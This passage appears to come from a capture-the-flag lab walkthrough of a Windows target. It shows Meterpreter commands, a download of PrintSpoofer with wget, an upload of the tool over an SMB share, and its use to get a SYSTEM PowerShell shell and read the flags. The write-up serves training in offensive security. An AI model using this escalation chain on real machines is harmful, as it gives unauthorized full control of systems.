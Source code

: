     meterpreter > getuid

User flag:

    meterpreter > cat c:/users/bob/desktop/user.txt

## Privilege escalation

    meterpreter > getprivs

[Juicy Potato](https://github.com/ohpe/juicy-potato) does not work for Windows Server 2019 and Windows 10 versions 
1809 and higher, but using [PrintSpoofer](https://github.com/dievus/printspoofer) might work for 
abusing Impersonation Privileges .

Download PrintSpoofer from the Git repository to put it on the `nt4wrksv` SMB share to be transferred to the target 
machine:

    # wget https://github.com/dievus/printspoofer/raw/master/PrintSpoofer.exe

    # smbclient //<IP target>/nt4wrksv     
    smb: \> put PrintSpoofer.exe       
                                   
Run:

    c:\inetpub\wwwroot\nt4wrksv>PrintSpoofer.exe -i -c powershell.exe

    PS C:\Windows\system32> whoami
    whoami
    nt authority\system

Root flag:

    PS C:\users\administrator\desktop> cat root.txt